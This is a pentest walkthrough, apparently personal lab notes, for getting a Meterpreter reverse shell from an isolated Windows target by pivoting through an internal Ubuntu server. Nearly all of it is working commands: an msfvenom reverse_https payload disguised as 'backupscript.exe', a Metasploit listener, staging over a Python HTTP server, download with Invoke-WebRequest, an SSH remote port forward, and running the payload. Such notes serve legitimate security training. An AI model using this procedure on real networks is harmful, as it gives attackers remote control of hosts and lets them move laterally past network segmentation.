 ![[Pasted image 20250804153829.png]]Your **Windows target** can only reach the **internal Ubuntu server**, not your **attacker machine (Kali/Parrot)**. To get a **reverse shell from Windows**, we:
- Make **Ubuntu act as a middleman**.
- Use **SSH remote port forwarding** to send the reverse shell **from Windows → Ubuntu → Attacker**.
- 
#### **Step 1: Create a Reverse Shell Payload (for windows machine)**
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupscript.exe
```

#### Step 2: Set Up a Listener on Your Attacker Machine
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 8000
run
```
- `LHOST=0.0.0.0`: Listen on **all interfaces**
- `LPORT=8000`: Where Ubuntu will forward the shell

#### **Step 3: Copy Payload to the Ubuntu Pivot Host**
```bash
scp backupscript.exe ubuntu@<Ubuntu_IP>:~/
```

#### **Step 4: Start a Python HTTP Server on Ubuntu**

```bash
python3 -m http.server 8123
```
This allows Windows to download `backupscript.exe`.

#### **Step 5: Download the Payload on the Windows Target**
```bash
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### **Step 6: Set Up Reverse Port Forwarding Using SSH**
```bash
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@<Ubuntu_IP> -vN
```
- `-R`: Remote port forwarding
- `172.16.5.129:8080`: Ubuntu listens here
- `0.0.0.0:8000`: Forward traffic to your listener
💡 Result: Any connection to Ubuntu’s `172.16.5.129:8080` gets forwarded to your `8000` listener.

**Step 7: Execute the Payload on the Windows Machine**
```bash
C:\backupscript.exe
```


![[Pasted image 20250804154330.png]]